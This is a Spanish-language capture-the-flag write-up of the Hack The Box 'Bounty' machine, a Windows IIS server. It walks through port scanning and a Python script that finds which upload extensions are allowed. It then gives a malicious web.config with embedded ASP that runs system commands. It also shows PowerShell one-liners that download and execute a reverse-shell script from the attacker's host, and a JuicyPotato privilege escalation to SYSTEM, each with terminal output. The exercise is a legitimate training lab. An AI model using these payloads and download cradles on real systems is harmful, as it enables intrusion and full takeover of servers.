


+++
author = "Andrés Del Cerro"
title = "Hack The Box: Bounty Writeup | Easy"
date = "2024-08-08"
description = ""
tags = [
    "HackTheBox",
    "Bounty",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "HTTP Enumeration",
    "Discovering Exploitable File Extensions",
    "Python Scripting",
    "Scripting",
    "Abusing web.config",
    "Abusing SeImpersonatePrivilege",
    "JuicyPotato"
]

+++

# Hack The Box: Bounty Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Bounty"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.249.211 --ulimit 5000 -g
10.129.249.211 -> [80]
```

```shell
$ nmap -p80 -sCV 10.129.249.211 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-08 08:09 CEST
Nmap scan report for 10.129.249.211
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.98 seconds
```

# UDP Enumeration
```shell
$ sudo nmap --top-ports 1500 -n -Pn --min-rate 5000 -sU 10.129.249.211 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-08 08:10 CEST
Nmap scan report for 10.129.249.211
Host is up.
All 1500 scanned ports on 10.129.249.211 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
```


Solo vemos el puerto `80/TCP` abierto, así que...

# HTTP Enumeration

Por detrás vemos que existe un IIS.
```shell
$ whatweb http://10.129.249.211
http://10.129.249.211 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/7.5], IP[10.129.249.211], Microsoft-IIS[7.5], Title[Bounty], X-Powered-By[ASP.NET]
```

Vemos esta imagen al acceder al sitio web.


Podemos analizar los metadatos de esta imagen pero no vemos nada interesante.
```shell
$ exiftool merlin.jpg 
ExifTool Version Number         : 12.57
File Name                       : merlin.jpg
Directory                       : .
File Size                       : 781 kB
File Modification Date/Time     : 2018:05:30 22:35:50+02:00
File Access Date/Time           : 2024:08:08 08:12:29+02:00
File Inode Change Date/Time     : 2024:08:08 08:12:29+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.02
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
X Resolution                    : 200
Y Resolution                    : 200
Resolution Unit                 : inches
Software                        : Adobe Photoshop CS4 Windows
Modify Date                     : 2012:03:20 00:51:07
Color Space                     : sRGB
Exif Image Width                : 2000
Exif Image Height               : 2000
Compression                     : JPEG (old-style)
Thumbnail Offset                : 332
Thumbnail Length                : 5883
IPTC Digest                     : 00000000000000000000000000000000
Displayed Units X               : inches
Displayed Units Y               : inches
Print Style                     : Centered
Print Position                  : 0 0
Print Scale                     : 1
Global Angle                    : 120
Global Altitude                 : 30
URL List                        : 
Slices Group Name               : Untitled-1
Num Slices                      : 1
Pixel Aspect Ratio              : 1
Photoshop Thumbnail             : (Binary data 5883 bytes, use -b option to extract)
Has Real Merged Data            : Yes
Writer Name                     : Adobe Photoshop
Reader Name                     : Adobe Photoshop CS4
Photoshop Quality               : 12
Photoshop Format                : Standard
Image Width                     : 2000
Image Height                    : 2000
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 2000x2000
Megapixels                      : 4.0
Thumbnail Image                 : (Binary data 5883 bytes, use -b option to extract)
```

Haciendo fuzzing con `feroxbuster` (no os echéis encima mía) encontramos una ruta interesante.

```shell
$ feroxbuster -u http://10.129.249.211 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100 -x asp,aspx
...
200      GET     1624l    16517w  1403476c http://10.129.249.211/merlin.jpg
200      GET       32l       53w      630c http://10.129.249.211/
200      GET       22l       58w      941c http://10.129.249.211/transfer.aspx
```

`transfer.aspx` , vamos a ver que es esto.


Tiene pinta de una subida de archivos, de aquí podemos pensar el vector de ataque que será un archivo malicioso para intentar ejecutar código, lo que todavía no sabemos es donde se suben estos archivos.

`$ echo "Esto es una prueba" > test.txt`


Parece que archivos txt no le gusta, vamos a probar a subir una imagen.

Voy a subir la misma imagen de Merlín pero con diferente nombre, `test.jpg`



# Finding Exploitable Extensions
¿Y ahora donde se ha subido este archivo?
Como es una máquina fácil, paré el `feroxbuster` muy pronto, pero si lo dejamos unos segundos mas...

```shell
301      GET        2l       10w      159c http://10.129.249.211/uploadedFiles => http://10.129.249.211/uploadedFile
```

Perfecto, pero subir una imagen no me sirve de mucho..


Me interesa reconocer que tipo de archivos puedo subir al servidor, y para ello podemos utilizar el `intruder` de `burpsuite` , pero como a mi me gusta complicarme la vida, vamos a crear un pequeño script en python :)

Podemos utilizar [esta](https://book.hacktricks.xyz/pentesting-web/file-upload) lista de extensiones que proporciona HackTricks.


```python
import requests
from pwn import *
from bs4 import BeautifulSoup

UPLOAD_URL = "http://10.129.249.211/transfer.aspx"
EXTENSIONS = [
    ".asp", 
    ".aspx", 
    ".config", 
    ".ashx", 
    ".asmx", 
    ".aspq", 
    ".axd", 
    ".cshtm", 
    ".cshtml", 
    ".rem", 
    ".soap", 
    ".vbhtm", 
    ".vbhtml", 
    ".asa", 
    ".cer", 
    ".shtml"
]

def do_request(extension):
    files = {'FileUpload1': (f"test.{extension}", open('test.txt','rb').read())}   
    s = requests.Session()
    r = s.get(UPLOAD_URL) # __VIEWSTATE and __EVENTVALIDATION
    soup = BeautifulSoup(r.text, 'html.parser')
    viewstate = soup.find('input', {'name': '__VIEWSTATE'})['value']
    eventvalidation = soup.find('input', {'name': '__EVENTVALIDATION'})['value']
    data = {
        "__VIEWSTATE": viewstate,
        "__EVENTVALIDATION": eventvalidation,
        "btnUpload": "Upload"
    }

    r = requests.post(UPLOAD_URL, files=files, data=data)
    if "Invalid File. Please try again" not in r.text:
        log.success("Extensión válida %s" % extension )
    

def upload():
    p = log.progress("Probando extensiones")
    for extension in EXTENSIONS:
        p.status(": %s" % extension)
        do_request(extension)
    
if __name__ == "__main__":
    upload()
```

Si ejecutamos el script..

```shell
$ python3 upload.py 
[q] Probando extensiones: : .shtml
[+] Extensión válida .config
```

Podemos subir un archivo .config.

Buscando un poco en Google, encontramos que hay una forma de conseguir RCE a través de la subida de un archivo web.config malicioso
https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/

Al subir el web.config adjuntado, si la máquina víctima es vulnerable, al cargar el archivo `web.config` debería de mostrarse el número 3, esto significaría que se estaría ejecutando código.


# Foothold
Podemos confirmar el RCE modificando el archivo `web.config` para intentar ejecutar un comando a nivel de sistema.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
' Ejecutar un comando del sistema
Set objShell = Server.CreateObject("WScript.Shell")
cmd = "cmd.exe /c ping 10.10.14.91"
Set objExec = objShell.Exec(cmd)
output = objExec.StdOut.ReadAll
Response.Write(output)
%>
-->
```

```shell
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:19:11.720161 IP 10.129.249.211 > 10.10.14.91: ICMP echo request, id 1, seq 1, length 40
09:19:11.720185 IP 10.10.14.91 > 10.129.249.211: ICMP echo reply, id 1, seq 1, length 40
09:19:12.723036 IP 10.129.249.211 > 10.10.14.91: ICMP echo request, id 1, seq 2, length 40
09:19:12.723055 IP 10.10.14.91 > 10.129.249.211: ICMP echo reply, id 1, seq 2, length 40
09:19:13.721560 IP 10.129.249.211 > 10.10.14.91: ICMP echo request, id 1, seq 3, length 40
09:19:13.721580 IP 10.10.14.91 > 10.129.249.211: ICMP echo reply, id 1, seq 3, length 40
09:19:14.720033 IP 10.129.249.211 > 10.10.14.91: ICMP echo request, id 1, seq 4, length 40
09:19:14.720058 IP 10.10.14.91 > 10.129.249.211: ICMP echo reply, id 1, seq 4, length 40
```

¡Y tenemos RCE!

Haciendo pruebas tuve que reiniciar la máquina, a partir de ahora la IP de la máquina víctima es `10.129.212.243`

Ahora con `Invoke-PowerShellTcp.ps1` de `nishang` vamos a mandarnos la reverse shell.

Modificamos el script inicial y añadimos la siguiente línea.


Modificamos el `web.config` para ejecutar el típico one-liner en powershell...
```aspx
<%
' Ejecutar un comando del sistema
Set objShell = Server.CreateObject("WScript.Shell")
cmd = "cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.91:8081/Invoke-PowerShellTcp.ps1')"
Set objExec = objShell.Exec(cmd)
output = objExec.StdOut.ReadAll
Response.Write(output)
%>
```

Ahora servimos este script con `python` usando su módulo `http.server` por el puerto 8081 y si nos ponemos en escucha con `netcat` , subimos el `web.config` malicioso, y cargamos el recurso...
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.249.222 - - [08/Aug/2024 09:41:28] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.91] from (UNKNOWN) [10.129.249.222] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```

Y podemos ver la flag de usuario en el directorio personal de `merlin`

```powershell
PS C:\Users\merlin\Desktop> dir -force


    Directory: C:\Users\merlin\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a-hs         5/30/2018  12:22 AM        282 desktop.ini                       
-arh-          8/8/2024   8:35 AM         34 user.txt                          


PS C:\Users\merlin\Desktop> type user.txt
b42329e84a71be14...
```

# Privilege Escalation

Podemos ver que este usuario tiene el privilegio `SeImpersonatePrivilege`, esto huele a `JuicyPotato`..

```powershell
PS C:\Users\merlin\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Antes de la explotación, comprobamos el sistema operativo.


Y comprobamos si hay CLSID disponibles para esta versión en el repositorio de [juicy-potato](https://github.com/ohpe/juicy-potato/tree/master/CLSID) y vemos que si.


Nos descargamos el `JuicyPotato.exe` del repositorio y nos lo compartimos a la máquina víctima

```powershell
PS C:\Users\merlin\Desktop> (New-Object System.Net.WebClient).DownloadFile("http://10.10.14.91:8081/JuicyPotato.exe", "C:\Users\merlin\Desktop\JuicyPotato.exe")
```

Y podemos repetir el mismo paso de antes, descargarnos el `Invoke-PowerShellTcp.ps1` y así mandarnos una reverse shell, y si todo sale bien deberíamos convertirnos en `nt\authority system`

Nos ponemos en escucha con `netcat` por el puerto 443, y nos compartimos el script con python por el puerto 8081.

```powershell
PS C:\Users\merlin\Desktop> .\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.91:8081/Invoke-PowerShellTcp.ps1')" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.249.222 - - [08/Aug/2024 09:55:05] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.91] from (UNKNOWN) [10.129.249.222] 49185
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
```

Hemos escalado privilegios y ya podemos leer la flag de `root`

```powershell
PS C:\Users\Administrator\Desktop> type root.txt
92608230ded064c7ab...
```

¡Y ya estaría!

Happy Hacking! 🚀